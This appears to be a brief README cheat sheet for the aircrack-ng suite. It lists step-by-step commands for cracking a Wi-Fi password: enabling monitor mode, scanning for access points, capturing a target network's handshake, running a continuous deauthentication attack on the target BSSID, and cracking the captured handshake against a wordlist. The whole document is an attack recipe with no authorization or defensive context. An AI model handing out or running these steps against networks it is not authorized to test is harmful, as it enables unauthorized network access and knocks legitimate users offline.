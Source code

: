 # Aircrack suite

## TIP: All commands must be run with sudo

### Usage:

#### 1) airmon-ng start wlan0 (Assuming that the Wi-Fi interface is wlan0) (Check with iwconfig if the interface went to monitor mode)

#### 2) airodump-ng wlan0mon (Scans for Access Points' SSIDs and BSSIDs or simply a 48-bit MAC around us)

#### 3) airodump-ng wlan0mon -c NUM --bssid TARGET_BSSID -w pwd (NUM represents the channel the target is tuned in. Tune in your target, then wait to capture the handshake, then save it as a .pcap file)

#### 4) aireplay-ng --deauth 0 -a TARGET_BSSID wlan0mon (Perform a deauthentication attack against the target)

#### 5) aircrack-ng HANDSHAKE_FILE.pcap -w WORDLIST.txt (Crack the Wi-Fi password)

